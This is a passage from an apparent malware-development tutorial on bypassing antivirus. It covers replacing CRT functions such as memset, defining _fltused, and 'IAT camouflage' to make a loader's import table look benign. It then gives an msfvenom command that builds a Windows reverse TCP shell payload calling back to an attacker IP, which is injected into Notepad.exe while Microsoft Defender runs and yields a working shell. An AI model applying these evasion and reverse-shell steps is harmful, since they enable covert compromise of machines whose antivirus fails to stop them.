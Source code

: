 ```
	return Destination;
}



extern void* __cdecl memset(void*, int, size_t);
#pragma intrinsic(memset)#pragma function(memset)void* __cdecl memset(void* Destination, int Value, size_t Size) {
	unsigned char* p = (unsigned char*)Destination;
	while (Size > 0) {
		*p = (unsigned char)Value;
		p++;
		Size--;
	}
	return Destination;
}

```
There is one final error to solve which is the undefined `_fltused` symbol. The `_fltused` symbol is a global variable in the CRT Library which is used to determine if floating-point operations were used in a program. By creating a new variable named `_fltused` and setting it to zero, the error will be resolved. This mirrors the initialization of the variable by the CRT Library, which will result in the compiler building the project with no errors.

### **IAT Camouflage**

Adding the header file `IatCamouflage.h`, which contains the same code introduced in the *IAT Camouflage* module, should be done as a final step. `IatCamouflage.h` should be included in the `main.c` file only and called at the beginning of the main function, so that the import address table of the implementation will appear benign.

### **Final Result**

This demonstration uses Msfvenom's reverse TCP shell payload which is generated via the command below.


```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.16.111 LPORT=4444 -f raw -o reverse.bin

```
`AV.exe`'s IAT is shown below.

[![](81%20Bypassing%20AVs%20c8b98ed828814f89b8db2d5ac5a9c230/av-bypass-15.png)](81%20Bypassing%20AVs%20c8b98ed828814f89b8db2d5ac5a9c230/av-bypass-15.png)Next, `AV.exe` injects into `Notepad.exe` with Microsoft Defender enabled.

[![](81%20Bypassing%20AVs%20c8b98ed828814f89b8db2d5ac5a9c230/av-bypass-16.png)](81%20Bypassing%20AVs%20c8b98ed828814f89b8db2d5ac5a9c230/av-bypass-16.png)A successful reverse shell is established to the attacking machine and a sample command is executed.

[![](81%20Bypassing%20AVs%20c8b98ed828814f89b8db2d5ac5a9c230/av-bypass-17.png)](81%20Bypassing%20AVs%20c8b98ed828814f89b8db2d5ac5a9c230/av-bypass-17.png)The `Notepad.exe` process has PID 20288, which matches the PID in the previous picture.

[![](81%20Bypassing%20AVs%20c8b98ed828814f89b8db2d5ac5a9c230/av-bypass-18.png)](81%20Bypassing%20AVs%20c8b98ed828814f89b8db2d5ac5a9c230/av-bypass-18.png)